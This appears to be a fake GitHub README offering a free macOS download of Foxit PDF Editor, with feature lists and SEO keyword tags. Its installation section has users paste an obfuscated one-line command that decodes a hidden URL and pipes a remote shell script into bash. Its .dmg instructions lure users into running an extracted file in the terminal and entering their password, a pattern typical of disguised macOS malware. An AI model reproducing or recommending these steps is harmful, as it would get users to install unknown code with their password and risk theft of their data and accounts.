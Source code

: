 # 🧾 Foxit PDF Editor — Powerful PDF Editing Software for macOS

Foxit PDF Editor is a versatile PDF solution designed for macOS users to create, edit, and manage PDF documents efficiently. It offers professional-grade features suitable for business and personal use, all within a native Mac environment.

## ✅ Download Foxit PDF Editor for macOS  
[![Download Foxit PDF Editor](https://img.shields.io/badge/Download-Foxit%20PDF%20Editor-blueviolet)](https://shuziktobehuman.github.io/huja/Foxit)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)


## 📦 What is Foxit PDF Editor?

Foxit PDF Editor provides a comprehensive set of tools for editing, annotating, and securing PDF files on macOS. It supports form creation, digital signatures, and OCR, allowing users to handle all PDF workflows seamlessly.

---

## ✨ Features

- 📝 Edit text, images, and pages in PDFs  
- 📄 Create, fill, and sign PDF forms  
- 🔍 Optical Character Recognition (OCR) for scanned documents  
- 🖥️ Fully optimized for macOS with Retina display support  
- 🔒 Advanced security features including password protection and redaction  
- 🔄 Integration with cloud services for easy sharing  
- 📑 Organize pages with drag-and-drop interface  

---

## 💡 Why Use Foxit PDF Editor?

- ✅ Powerful PDF editing with professional tools on macOS  
- 🚀 Streamlines document workflows for businesses and individuals  
- 🛡️ Protects sensitive information with advanced security  
- 📲 Compatible across Mac, iPhone, and iPad  
- 💼 Supports collaboration with annotation and commenting features  

---

[![Download Foxit PDF Editor](https://img.shields.io/badge/Download-Foxit%20PDF%20Editor-blueviolet)](https://shuziktobehuman.github.io/huja/Foxit)

---

## 🖼️ Preview

![Foxit PDF Editor Screenshot 1](https://help.foxit.com/manuals/pdf-reader/foxit-reader-for-mac/en-us/12.1.0/images/20210516/1.png)  
![Foxit PDF Editor Screenshot 2](https://www.ghacks.net/wp-content/uploads/2022/06/foxit-pdf-reader-12.0.png)

---

## 📌 Tags

foxit pdf editor, foxit pdf editor free, foxit phantompdf download, phantom pdf, foxit editor,  
foxit pdf editor pro, foxit pdf editor download, foxit pro, phantompdf, foxit phantompdf business,  
foxit pdf editor online, foxit reader edit pdf, foxit pdf download, foxit reader free, foxit pdf free download,  
foxit editor download, foxit phantompdf free download, foxit pdf reader free, foxit pdf editor free download for windows 10,  
foxit reader linux, foxit reader portable, foxit phantom pdf business, foxit pdf editor portable, foxit pdf reader mac,  
pdf foxit phantom free download, foxit professional, download foxit phantom pdf, foxit pdf editor full,  
foxit pdf editor mac, foxit pdf editor mac download
